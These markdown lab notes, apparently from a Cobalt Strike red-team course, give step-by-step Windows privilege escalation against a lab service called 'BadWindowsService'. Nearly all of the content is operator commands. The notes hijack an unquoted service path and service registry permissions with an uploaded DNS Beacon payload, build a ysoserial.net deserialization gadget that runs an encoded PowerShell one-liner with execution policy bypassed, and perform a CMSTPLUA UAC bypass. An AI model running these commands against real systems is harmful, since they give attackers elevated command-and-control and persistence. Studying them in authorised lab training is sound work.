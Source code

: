 ### Unquoted Service Path
- Verify the binary path of the service.
    1. `sc_qc BadWindowsService`

-  Verify the permissions of the target directory.    
    1. `cacls "C:\Program Files\Bad Windows Service"`

-  Change Beacon's current working directory.    
    1. `cd C:\Program Files\Bad Windows Service`

-  Upload a DNS Beacon service payload.
    1. `upload C:\Payloads\dns_x64.svc.exe`

-  Rename the payload to activate the hijack.
    1. `mv dns_x64.svc.exe Service.exe`

-  Restart the service.
    
    1. `sc_stop BadWindowsService`
    2. `sc_start BadWindowsService`
    
    The new Beacon should appear immediately.
    
-  Interact with the new Beacon.
    1. `Run a checkin command.`

-  Delete the service payload.
    1.` rm Service.exe`

### Service Registry Permissions
- Verify the permissions of the service's regsitry key.
    
    1. powerpick Get-Acl -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\BadWindowsService' | fl
-  Stop the service.
    
    1. sc_stop BadWindowsService
-  Change Beacon's current working directory.
    
    1. cd C:\Temp
-  Upload a DNS Beacon service payload.
    
    1. upload C:\Payloads\dns_x64.svc.exe
-  Get the current binary path.
    
    1. sc_qc BadWindowsService
-  Reconfigure the service to point to the payload.
    
    1. sc_config BadWindowsService C:\Temp\dns_x64.svc.exe 0 2
-  Start the service.
    
    1. sc_start BadWindowsService
    
    The elevated Beacon should appear immediately.
    
-  Restore the binary path.
    
    1. sc_config BadWindowsService "C:\Program Files\Bad Windows Service\Service Executable\BadWindowsService.exe" 0 2
-  Delete the service payload.
    
    1. rm dns_x64.svc.exe

### Unsafe Deserialization

1.  Host a PowerShell one-liner on the medium-integrity Beacon for a DNS Beacon payload.
    
> Right-click the Beacon and select **Access > One-liner**.
    
2.  On your Attacker Desktop, generate a serialized gadget with ysoserial.net, using the PowerShell one-liner from the previous step.
    
    `C:\Tools\ysoserial.net\ysoserial\bin\Release\ysoserial.exe -g TypeConfuseDelegate -f BinaryFormatter -c "powershell -nop -ep bypass -enc ..." -o raw --outputpath=C:\Payloads\data.bin`
    
3.  Change Beacon's current working directory.
    
    1. cd C:\Temp
4.  Upload the gadget.
    
    1. upload C:\Payloads\data.bin
5.  Sit back and wait for up to 60 seconds for the elevated Beacon to appear.
    
> Check that the service is running with sc_query BadWindowsService and use sc_start BadWindowsService is you need to.
    
6.  Delete the gadget.
    
    1. rm data.bin

### CMSTPLUA UAC Bypass

For this bypass technique to work, the process in which our Beacon is running must live in _C:\Windows*_.

1.  Spawn a new Beacon (this spawns in _C:\Windows\System32\rundll32.exe_ by default.)
    
    1. spawn x64 http
2.  Host a PowerShell one-liner on the new Beacon.
    
    > Right-click the Beacon, select **Access > One-liner** and select the tcp-local listener.
    
3.  Run the provided one-liner via **runasadmin**.
    
    1. runasadmin uac-cmstplua [ONE-LINER]
4.  Connect to the elevated Beacon.
    
    1. connect localhost 1337